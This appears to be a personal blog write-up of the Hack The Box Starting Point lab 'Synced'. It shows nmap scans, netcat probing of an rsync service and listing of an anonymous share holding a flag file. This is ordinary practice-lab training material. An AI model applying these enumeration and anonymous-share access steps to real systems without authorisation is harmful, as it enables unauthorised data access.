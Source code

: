 ```yaml
---
layout: post
title: synced
categories: htb
tags:
- htb
- starting_point
- synced
- rsync
author: nicoliboli
description: starting point | tier 0 | box 7
date: '2025-06-26 16:55:42 -0400'
---
```

# enumeration

```
$ nmap 10.129.114.86             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:41 EDT
Nmap scan report for 10.129.114.86
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT    STATE SERVICE
873/tcp open  rsync

Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds

$ nmap -sC -sV -p 873 10.129.114.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-26 16:41 EDT
Nmap scan report for 10.129.114.86
Host is up (0.094s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.73 seconds
```

## port 873

```
$ nc -vn 10.129.114.86 873
(UNKNOWN) [10.129.114.86] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
public          Anonymous Share
@RSYNCD: EXIT

$ nc -vn 10.129.114.86 873
(UNKNOWN) [10.129.114.86] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
public
@RSYNCD: OK
```

looks like we don't need to authenticate to the share

# exploitation

check to make sure we can list the contents of `public`

```
$ rsync -vr --list-only rsync://10.129.114.86/public
receiving incremental file list
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt

sent 24 bytes  received 72 bytes  9.14 bytes/sec
total size is 33  speedup is 0.34
```

copy over the `flag.txt` file and `cat` it

![flag](/assets/img/synced_flag.png)